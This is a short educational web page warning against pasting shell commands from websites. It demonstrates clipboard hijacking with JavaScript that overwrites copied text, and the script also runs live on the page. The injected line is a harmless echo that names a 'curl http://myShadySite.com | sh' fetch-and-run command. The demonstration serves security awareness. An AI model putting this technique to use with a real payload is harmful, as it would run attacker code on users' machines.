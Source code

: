 

# Don't Copy Paste Into A Shell

When you see a shell command on the Internet, do not copy it into your terminal.

Modern JavaScript Clipboard APIs allow a website to trivially overwrite what you put inside your clipboard, without the user's confirmation or permission.


Here is an example of how easy it is to perform this attack. Imagine that the red text below is a shell command you want to use.


<p id="copyme" style="background-color:red;">$ echo "looks safe to me!"</p>


Note that you don't even have to press ENTER in your terminal after pasting for the exploit to happen. The payload conveniently contains a trailing newline that does that for you!

Here is the JavaScript that is performing the exploit.

```
document.getElementById('copyme').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain', 
        'echo "this could have been [curl http://myShadySite.com | sh]"\n'
    );
    e.preventDefault();
});
```

<script>
document.getElementById('copyme').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain', 'echo "this could have been [curl http://myShadySite.com | sh]"\n');
    e.preventDefault();
});
</script>